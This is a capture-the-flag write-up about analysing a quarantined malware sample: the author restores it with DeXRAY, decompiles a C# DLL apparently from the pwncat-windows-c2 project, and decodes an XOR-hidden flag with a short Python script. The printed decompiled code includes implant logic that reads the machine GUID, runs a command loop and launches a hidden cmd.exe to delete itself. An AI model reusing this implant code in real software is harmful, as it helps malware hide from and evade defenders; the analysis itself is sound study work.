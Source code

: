 # X-RAY
The SOC detected malware on a host, but antivirus already quarantined it... can you still make sense of what it does?

NOTE: Archive password is infected


## Solution

This was a very fun task. I had to learn a new tool and techniques I'd never even heard about before.

I wasn't quite sure how to start, but after googling for a while, I found a tool called "DeXRAY". This is a tool to analyze files quarantined by antivirus programs. This had to be the correct tool to use, considering the title and description of the task.

I ran the tool on the file we were given:

`./DeXRAY.pl x-ray`

I got a new file, but it took a while for me to realize that it was a `DLL` file. I only realized it after looking at the HEX and finding mentions of [this GitHub repository](https://github.com/calebstewart/pwncat-windows-c2), which is malware the John Hammond has contributed to. I found the DLL files in the repository, and it clicked.

The DLL file was written in C#, meaning that I could get the original source code without an issue.

I decompiled the file using ILSpy and found this in main:

```c#

	public void main(object oPath, object oStdin)
	{
		string text = (string)oPath;
		StreamReader streamReader = (StreamReader)oStdin;
		(new object[1])[0] = streamReader;
		Protocol protocol = new Protocol(streamReader);
		PowerShell.init_pshost();
		Console.WriteLine("READY");
		Console.WriteLine((string)Registry.GetValue("HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Cryptography", "MachineGuid", "NONE"));
		protocol.Loop();
		string text2 = "ping -n 5 127.0.0.1 & del \"" + text + "\"";
		System.Diagnostics.Process.Start(new ProcessStartInfo
		{
			FileName = "cmd.exe",
			WindowStyle = ProcessWindowStyle.Hidden,
			CreateNoWindow = true,
			Arguments = "/C " + text2
		});
		Environment.Exit(Environment.ExitCode);
	}

	public static Dictionary<string, object> exit()
	{
		throw new Protocol.LoopExit();
	}

	private static byte[] otp(byte[] data, byte[] key)
	{
		byte[] array = new byte[data.Length];
		for (int i = 0; i < data.Length; i++)
		{
			array[i] = (byte)(data[i] ^ key[i % key.Length]);
		}
		return array;
	}

	private static byte[] load(string hex)
	{
		int length = hex.Length;
		byte[] array = new byte[length / 2];
		for (int i = 0; i < length; i += 2)
		{
			array[i / 2] = Convert.ToByte(hex.Substring(i, 2), 16);
		}
		return array;
	}

	public static void Main(string[] args)
	{
		new StageTwo().main("", new StreamReader(Console.OpenStandardInput()));
		byte[] data = load("15b279d8c0fdbd7d4a8eea255876a0fd189f4fafd4f4124dafae47cb20a447308e3f77995d3c");
		byte[] key = load("73de18bfbb99db4f7cbed3156d40959e7aac7d96b29071759c9b70fb18947000be5d41ab6c41");
		byte[] bytes = otp(data, key);
		Encoding.UTF8.GetString(bytes);
	}
```

This code includes hidden text, the one time password (otp), and the code for decrypting it.

I made a python script to decrypt the data, which gave me the flag:

```python
# Let's decode the provided hex strings and use the OTP decryption function to reveal the hidden data.

# Provided hex strings for data and key
data_hex = "15b279d8c0fdbd7d4a8eea255876a0fd189f4fafd4f4124dafae47cb20a447308e3f77995d3c"
key_hex = "73de18bfbb99db4f7cbed3156d40959e7aac7d96b29071759c9b70fb18947000be5d41ab6c41"

# Load function to convert hex to byte array
def load(hex_string):
    length = len(hex_string)
    return bytearray(int(hex_string[i:i+2], 16) for i in range(0, length, 2))

# OTP decryption function
def otp(data, key):
    return bytearray(data[i] ^ key[i % len(key)] for i in range(len(data)))

# Convert hex strings to byte arrays
data = load(data_hex)
key = load(key_hex)

# Perform OTP decryption
decrypted_bytes = otp(data, key)

# Convert the result to a string
decrypted_string = decrypted_bytes.decode('utf-8', errors='replace')

# Display the decrypted result
decrypted_string
```
